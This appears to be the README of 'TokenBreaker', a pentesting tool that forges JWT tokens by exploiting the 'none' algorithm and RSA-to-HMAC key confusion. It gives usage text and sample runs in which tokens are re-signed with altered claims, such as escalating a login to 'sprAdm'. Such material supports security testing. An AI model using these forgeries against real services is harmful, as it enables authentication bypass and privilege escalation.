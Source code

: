 # TokenBreaker

Token Breaker is focused on 2 particular vulnerability related to JWT tokens.

 - None Algorithm
 - RSAtoHMAC

Refer to [this](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/) link about insights of the vulnerability and how an attacker can forge the tokens

Try out this vulnerability [here](http://demo.sjoerdlangkemper.nl/jwtdemo/rs256.php?)

## TheNone Usage
```
usage: TheNone.py [-h] -t TOKEN

TokenBreaker: 1.TheNoneAlgorithm

optional arguments:
  -h, --help            show this help message and exit

required arguments:
  -t TOKEN, --token TOKEN
                        JWT Token value

Example Usage: python TheNone.py -t [JWTtoken]
```

### Output
```
$ ./TheNone.py -t eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXUyJ9.eyJsb2dpbiI6ImFkbSIsImlhdCI6IjE1Mzc1MjMxMjIifQ.ZWZhNjRmZDgzYWYzNDcxMjk5OTQ4YzE0NDVjMTNhZmJmYTQ5ZDhmYjY0ZDgyMzlhMjMwMGJlMTRhODA2NGU4MQ

TheNone

[*] Decoded Header value is: {"alg":"HS256","typ":"JWS"}
[*] Decoded Payload value is: {"login":"adm","iat":"1537523122"}
[*] New header value with none algorithm: {"alg":"None","typ":"JWS"}
[<] Modify Header? [y/N]: n
[<] Enter your payload: {"login":"sprAdm","iat":"0"}
[+] Successfully encoded Token: eyJhbGciOiJOb25lIiwidHlwIjoiSldTIn0.eyJsb2dpbiI6InNwckFkbSIsImlhdCI6IjAifQ.
```

## RSAtoHMAC Usage
```
usage: RsaToHmac.py [-h] -t TOKEN -p PUBKEY

TokenBreaker: 1.RSAtoHMAC

optional arguments:
  -h, --help                        show this help message and exit

required arguments:
  -t TOKEN, --token TOKEN           JWT Token value
  -p PUBKEY, --pubkey PUBKEY        Path to Public key File

Example Usage: python RsatoHMAC.py -t [JWTtoken] -p [PathtoPublickeyfile]
```

### Output
```
$ ./RsaToHmac.py -t eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJodHRwOlwvXC9kZW1vLnNqb2VyZGxhbmdrZW1wZXIubmxcLyIsImlhdCI6MTU0MDM3NjA2MSwiZXhwIjoxNTQwMzc2MTgxLCJkYXRhIjp7ImhlbGxvIjoid29ybGQifX0.HI50KvoHzcf7znWkrdugn5-O-68PpJAeiS21cLisC1WgEI21gWnqqvv3oqsnzbGkIt21NvPVHWFXoKJmLPKHeMeYLgc7nuVdF37WWd7M1XzZEP8zLoed7Z6K0KfNuR_CRsjogv1KAt8fJQvRzRhFi9dORHGxWRqpiInIgLKROLgXB-7Rv2SOYdyD_XylRaVJ1JpmmCyVmIbzVWhVuRJWT59AUm43yYRP3bBt-bnhMfkzFpwxTk3O84-On4DoIt6NIkRJaxXDUdDKscLGmSWQmdZsZds3XSV0ZgN0PObADqkZwwCBAqUTT7l5BVcBmasdnNuZ8cCDKzNtJr2cdow6zQ -p public.pem

RSA to HMAC

[*] Decoded Header value: {"typ":"JWT","alg":"RS256"}
[*] Decode Payload value: {"iss":"http:\/\/demo.sjoerdlangkemper.nl\/","iat":1540376061,"exp":1540376181,"data":{"hello":"world"}}
[*] New header value with HMAC: {"typ":"JWT","alg":"HS256"}
[<] Modify Header? [y/N]: n
[<] Enter Your Payload value: {"iss":"http:\/\/www.google.com\/","iat":2351287873,"exp":1843945693,"data":{"hello":"hacked!"}}
[+] Successfully Encoded Token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOlwvXC93d3cuZ29vZ2xlLmNvbVwvIiwiaWF0IjoyMzUxMjg3ODczLCJleHAiOjE4NDM5NDU2OTMsImRhdGEiOnsiaGVsbG8iOiJoYWNrZWQhIn19.8jfUVCZPA7cWaSfe0LIjRt692RaFHnnvtw0jHoSAneQ
```
